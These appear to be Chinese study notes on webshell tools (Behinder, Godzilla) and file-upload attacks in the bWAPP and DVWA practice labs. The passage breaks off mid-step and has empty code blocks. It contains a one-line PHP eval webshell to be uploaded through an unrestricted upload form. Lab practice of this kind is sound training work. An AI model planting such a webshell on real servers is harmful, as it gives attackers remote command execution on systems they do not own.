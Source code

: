 # 4.冰蝎

```python
https://githu.com/rebeyond/Behinder (文档库)
https://github.com/rebeyond/Behinder/releases (下载地址)
```

# 5.哥斯拉-Godzilla

```python

```

[护网中用到的23个常见Webshell网站管理工具---白帽子渗透工具 - 菜菜聊架构 - 博客园](https://www.cnblogs.com/caicz/p/16531215.html) (工具汇总)

[常用Webshell工具_IDebugger_kxk的博客-CSDN博客_antsword](https://blog.csdn.net/qq_43757105/article/details/120980134)

# 2.bwapp靶场

## 2.1 找到文件上传的接口

```php
http://10.102.224.206:9091/unrestricted_file_upload.php
```

## 2.2 新建 php 文件 file_upload.php，编辑内容

```php
<?php @eval($_POST['hello']); ?>
```

## 2.3 访问刚才注入的文件

```http

```

# 3.dvwa 靶场

## 3.1 测试1

### 3.1.1 将 DVWA Security 的 Security Level 置为 low

```php
观察源码可知，没有做任何校验。
```

### 3.1.2 新建一个file_upload.php文件，并编辑内容为
